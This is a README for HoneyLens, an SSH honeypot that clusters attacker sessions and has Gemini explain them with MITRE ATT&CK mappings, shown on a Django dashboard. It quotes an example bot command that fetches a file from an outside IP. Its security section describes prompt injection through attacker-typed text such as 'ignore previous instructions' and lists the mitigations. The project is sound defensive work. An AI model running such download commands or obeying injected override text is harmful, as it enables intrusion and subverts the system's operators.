

# HoneyLens

An SSH honeypot that catches real attackers, groups their attacks into patterns,
explains each pattern in plain English with Google Gemini, and maps it to MITRE ATT&CK.
Results show up on a Django dashboard.

**Stack:** Python · Cowrie · MongoDB · Google Gemini API · Django · Docker · Linux


*Screenshot uses synthetic demo data. Replace with a screenshot from the live honeypot.*

## How it works

```
 internet bots
      │  ssh :22
      ▼
┌──────────┐  JSON logs   ┌────────────────────────────────────────┐   ┌──────────┐
│  Cowrie  │ ───────────▶ │ worker (Python, runs every 60s)        │──▶│ MongoDB  │
│ fake SSH │  (shared     │ 1. ingest   read new log lines         │   └────┬─────┘
└──────────┘   volume)    │ 2. cluster  fingerprint each session   │        │
                          │ 3. analyze  Gemini explains NEW        │        ▼
                          │             patterns + MITRE mapping   │   ┌──────────┐
                          └────────────────────────────────────────┘   │  Django  │
                                                                       │dashboard │
                                                                       └──────────┘
```

1. **Ingest** (`honeylens/ingest.py`): Cowrie writes one JSON line per event (connect,
   login attempt, command typed, file downloaded). The worker reads only lines it hasn't
   seen yet and builds one MongoDB document per session.
2. **Cluster** (`honeylens/fingerprint.py`): bots run the same script thousands of times
   with small changes (a new IP, a random filename). We swap those parts for placeholders
   (`wget http://45.9.1.2/x -O .k82jf` → `wget <URL> -O <RAND>`) and hash the result. Same
   hash = same attack pattern. Sessions with no commands go into fixed groups: *scan*,
   *brute force*, or *login only*.
3. **Analyze** (`honeylens/llm.py`, `honeylens/analyze.py`): each **new** pattern is sent to
   Gemini **once**, with a strict JSON schema: name, intent, plain-English explanation,
   severity, MITRE techniques (each with the command that proves it), and IOCs.
   Thousands of sessions → dozens of LLM calls.
4. **Validate** (`honeylens/mitre.py`): technique IDs must be on an allow-list of real ATT&CK
   techniques. Made-up IDs are dropped and counted, and the dashboard shows how many were blocked.
5. **Dashboard** (`web/`): Django renders the HTML on the server. No JavaScript, no API.

No API key? It falls back to keyword rules, so everything still works offline.

### Security decisions worth knowing

- **Prompt injection:** attackers control the text we send to the LLM. They could type
  `echo "ignore previous instructions"`. Mitigations: the commands are wrapped in tags and
  labelled untrusted, output is forced into a JSON schema, technique IDs are allow-listed,
  and nothing the LLM says is ever executed. The demo data includes an injection attempt.
- **XSS:** attacker commands are shown on the dashboard. Django escapes all template
  output, and there's a test proving `<script>` comes out as text.
- **Exposure:** only Cowrie is public. MongoDB has no published port; the dashboard binds to
  `127.0.0.1` and is viewed through an SSH tunnel.
- **Containment:** Cowrie is an emulator (no real shell). Its container drops all Linux
  capabilities; the app containers run as a non-root user.

## Run it locally with demo data (5 minutes)

Needs Docker Desktop.

```bash
cp .env.example .env                 # add GEMINI_API_KEY if you have one (optional)
docker compose up -d --build mongo worker dashboard
docker compose run --rm worker python -m honeylens.seed_demo
# wait ~1 minute for the worker cycle, then open http://localhost:8000
```

The demo data is **synthetic**. Wipe it before going live:

```bash
docker compose run --rm worker python -m honeylens.reset --yes
```

## Deploy for real

See **[docs/DEPLOY.md](docs/DEPLOY.md)**. Short version: cheap Ubuntu VM → move real SSH
to port 22022 → `docker compose up -d` → view the dashboard over an SSH tunnel.

## Tests

```bash
cd app
pip install -r requirements-dev.txt
pytest
```

Covers fingerprinting, incremental ingest, partial log lines, clustering, LLM output
validation (hallucinated IDs rejected), the rules fallback, every dashboard page, and HTML escaping.

## Project layout

```
docker-compose.yml        cowrie + mongo + worker + dashboard
app/
  honeylens/
    ingest.py             Cowrie JSON → sessions + logins in MongoDB
    fingerprint.py        command normalization → cluster id
    analyze.py            clustering + calling the analyzer + validation
    llm.py                Gemini prompt/schema + keyword-rule fallback
    mitre.py              ATT&CK allow-list
    worker.py             the loop
    seed_demo.py          fake data for local testing
  dashboard/              Django project settings/urls
  web/                    Django views + templates
  tests/
docs/DEPLOY.md
```
